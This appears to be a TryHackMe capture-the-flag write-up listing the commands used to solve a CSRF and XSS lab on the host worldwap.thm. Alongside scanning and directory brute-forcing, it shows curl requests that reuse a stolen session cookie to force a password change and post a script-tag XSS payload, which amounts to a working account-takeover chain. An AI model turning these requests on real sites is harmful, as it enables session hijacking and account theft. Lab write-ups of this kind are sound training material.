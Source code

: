 # TryHackMe-Whats Your Name

**Scope:**

- CSRF (Cross-Site Request Forgery)
- XSS (Cross-Site Scripting)

**Keywords:**

- Account Takeover with XSS
- Directory Scan
- Session Cookie
- Cookie Manipulation
- Cookie Hijacking
- XSS Payloads
- CSRF Method

**Main Commands:**

- `nmap -sS -sV -sC -T4 -A -O -oN nmap_result.txt --min-rate=1000 --max-retries=3 -Pn $target_ip`
- `ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u 'http://worldwap.thm/FUZZ' -ic -t 100 -mc 200,301,403`
- `ffuf -w /usr/share/wordlists/dirb/big.txt -u 'http://worldwap.thm/api/FUZZ' -ic -t 100 -mc 200,301,403`
- `gobuster dir -u http://worldwap.thm/api -w /usr/share/wordlists/dirb/big.txt -e -b 404,500 -x php --random-agent`
- `curl --path-as-is -i -s -k -X $'POST' -H $'Content-Type: application/json' -H $'X-THM-API-Key: e8d25b4208b80008a9e15c8698640e85' -b $'PHPSESSID=ni6sndnh3bauvdc64d28674em0' --data-binary $'{\"username\":\"overthenet\",\"password\":\"overthenet\",\"email\":\"overthenet@overthenet.thm\",\"name\":\"overthenet\"}' $'http://worldwap.thm/api/register.php'`
- `curl --path-as-is -iLsk -X $'POST' -H $'Content-Type: application/json' -H $'X-THM-API-Key: e8d25b4208b80008a9e15c8698640e85' -b $'PHPSESSID=ni6sndnh3bauvdc64d28674em0' --data-binary $'{\"username\":\"anyuser",\"password\":\"anyuser\",\"email\":\"anyuser@overthenet.thm\",\"name\":\"anyuser\"}' $'http://worldwap.thm/api/register.php'`
- `gobuster dir -u http://worldwap.thm/public/html -w /usr/share/wordlists/dirb/big.txt -e -b 404,500 -x php --random-agent -t 100`
- `python3 -m http.server 80`
- `echo 'UEhQU0VTU0lEPXZobjBnNWpqajNtczI0bWxuYzNlM242cG02' | base64 -d`
- `curl --path-as-is -i -s -k -X $'POST' -H $'Host: login.worldwap.thm' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 24' -H $'Origin: http://login.worldwap.thm' -H $'Connection: keep-alive' -H $'Referer: http://login.worldwap.thm/change_password.php' -H $'Upgrade-Insecure-Requests: 1' -b $'PHPSESSID=vhn0g5jjj3ms24mlnc3e3n6pm6' --data-binary $'new_password=anypassword' $'http://login.worldwap.thm/change_password.php'`
- `curl --path-as-is -iLsk -X $'POST' -H $'Host: login.worldwap.thm' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate, br' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 47' -H $'Origin: http://login.worldwap.thm' -H $'Connection: keep-alive' -H $'Referer: http://login.worldwap.thm/chat.php' -H $'Upgrade-Insecure-Requests: 1' -b $'PHPSESSID=vhn0g5jjj3ms24mlnc3e3n6pm6' --data-binary $'message=%3Cscript%3Ealert%281%29%3C%2Fscript%3E' $'http://login.worldwap.thm/chat.php'`

**System Commands:**
